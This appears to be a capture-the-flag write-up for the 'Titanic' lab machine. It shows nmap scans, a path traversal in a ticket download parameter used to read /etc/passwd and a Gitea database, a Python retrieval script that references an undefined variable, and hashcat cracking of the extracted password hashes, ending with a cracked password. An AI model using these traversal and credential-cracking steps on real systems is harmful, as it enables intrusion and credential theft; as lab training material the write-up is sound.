









# Titanic

## Enumeration

```
$ nmap -p- 10.10.11.55            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-08 06:33 EDT
Nmap scan report for titanic (10.10.11.55)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 18.27 seconds

$ nmap -p22,80 -sC -sV 10.10.11.55
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-08 06:33 EDT
Nmap scan report for titanic (10.10.11.55)
Host is up (0.030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.00 seconds
```

## Exploitation

### User flag

update `/etc/hosts` because of the redirect information

```
$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.11.55     titanic titanic.htb

::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
```

start burpsuite before visiting the site


all the links are dead, but there is a form at the bottom of the page



when you click, it downloads a ticket that is formatted in json



check for a path traversal vuln with `/etc/passwd`



no passwords though. the user `developer` looks promising, so try to read a `user.txt` file there et voila



i need execution on the box though and ince ssh is the only other option, look at the configs for that 



Needs a password to login, so back to enumeration. Found another subdomain `dev.titanic.htb` by looking at `/etc/hosts`




So now I know that gitea is installed and, from the repos, looks like docker and flask are running. 



I can see where the site is mapped to on the box


I started clicking around and looking at repositories, but nothing really screamed creds, so turned to documentation. Looked at the docker installation for gitea and found an interesting path that would help



when i read that file, there is an interesting database file path


wrote a quick script to save the db file

```
$ cat get_gitea_db.py 
import requests

proxies = { "http" : "http://127.0.0.1:8080" }
filepath = "home/developer/gitea/data/gitea/gitea.db"

r = requests.get("http://titanic.htb/download", proxies=proxies, stream=True, params={"ticket":"../../../../home/developer/gitea/{}".format(p)})
with open("./gitea.db", "wb") as f:
    f.write(r.content)
```

the table that is most interesting right now is the `user` table. from the [documentation](https://fossies.org/linux/gitea/modules/auth/password/hash/setting.go) I can see that password is hashed using `pbkdf2`. this [site](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes) helped me understand what to do to convert gitea password to hachcat ingestable one and also provided a handy script

```
$ sqlite3 gitea.db 'select salt,passwd from user;' | python gitea2hashcat.py 
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

run those through hashcat and the `developer` hash is immediately cracked using the `rockyou` wordlist 

```
$ hashcat -m 10900 gitea_hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

### Root flag

run `linpeas` so see if there are any privesc vecors



## Notes

[Site](https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html) used for Linux enum